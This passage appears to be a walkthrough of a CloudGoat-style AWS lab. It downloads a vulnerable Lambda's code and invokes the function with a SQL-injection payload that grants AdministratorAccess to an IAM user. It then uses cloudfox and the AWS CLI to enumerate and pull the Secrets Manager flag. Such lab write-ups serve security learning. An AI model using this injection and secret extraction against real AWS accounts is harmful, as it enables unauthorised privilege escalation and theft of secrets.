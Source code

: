 - Running the modified commands:
```bash
mkdir -p ./lambdas/vulnerable_lambda_cgid73or123swp-policy_applier_lambda1
url=`aws-vault exec cg-lambda-invoker -- aws lambda get-function --region us-east-1 --function-name vulnerable_lambda_cgid73or123swp-policy_applier_lambda1 | jq .Code.Location | sed s/'"'//g` && curl "$url" -o ./lambdas/vulnerable_lambda_cgid73or123swp-policy_applier_lambda1.zip
unzip ./lambdas/vulnerable_lambda_cgid73or123swp-policy_applier_lambda1.zip -d ./lambdas/vulnerable_lambda_cgid73or123swp-policy_applier_lambda1
```

- Follow the rest of the steps using the previously defined AWS CLI commands.

```bash
aws-vault exec cg-lambda-invoker -- aws lambda invoke --function-name vulnerable_lambda_cgid73or123swp-policy_applier_lambda1 --payload '{"policy_names":["AdministratorAccess'\''; --"],"user_name":"cg-bilbo-vulnerable_lambda_cgid73or123swp"}' --cli-binary-format raw-in-base64-out response.json --region us-east-1
```

- To pillage the "flag" for this scenario (Secrets Manager) after applying the managed admin policy to the bilbo IAM user:
```bash
aws-vault exec bilbo -- cloudfox aws secrets                  
[🦊 cloudfox v1.9.0 🦊 ] AWS Caller Identity: arn:aws:iam::REDACTED:user/cg-bilbo-vulnerable_lambda_cgid73or123swp
[secrets][REDACTED-AIDAW43MRFXB5YQGO4KP4] Enumerating secrets for account REDACTED.
[secrets][REDACTED-AIDAW43MRFXB5YQGO4KP4] Supported Services: SecretsManager, SSM Parameters
[secrets] Status: 42/42 tasks complete (8 errors -- For details check /home/dominic/.cloudfox/cloudfox-error.log)
[secrets] Output written to [cloudfox-output/aws/REDACTED-AIDAW43MRFXB5YQGO4KP4/table/secrets.txt]
[secrets] Output written to [cloudfox-output/aws/REDACTED-AIDAW43MRFXB5YQGO4KP4/csv/secrets.csv]
[secrets][REDACTED-AIDAW43MRFXB5YQGO4KP4] Loot written to [cloudfox-output/aws/REDACTED-AIDAW43MRFXB5YQGO4KP4/loot/pull-secrets-commands.txt]
[secrets][REDACTED-AIDAW43MRFXB5YQGO4KP4] 1 secrets found.
```

```bash
cat cloudfox-output/aws/REDACTED-AIDAW43MRFXB5YQGO4KP4/loot/pull-secrets-commands.txt                           
#############################################
# The profile you will use to perform these commands is most likely not the profile you used to run CloudFox
# Set the $profile environment variable to the profile you are going to use to pull the secrets/parameters.
# E.g., export profile=dev-prod.
#############################################

aws --profile $profile --region us-east-1 secretsmanager get-secret-value --secret-id vulnerable_lambda_cgid73or123swp-final_flag
```

```bash
aws-vault exec bilbo -- aws --region us-east-1 secretsmanager get-secret-value --secret-id vulnerable_lambda_cgid73or123swp-final_flag
{
    "ARN": "arn:aws:secretsmanager:us-east-1:REDACTED:secret:vulnerable_lambda_cgid73or123swp-final_flag-Sif8pD",
    "Name": "vulnerable_lambda_cgid73or123swp-final_flag",
    "VersionId": "4388D5FC-A56B-457A-8FF6-0D4CBBFF9CD1",
    "SecretString": "cg-secret-846237-284529",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2023-01-09T19:54:47.793000-05:00"
}
```
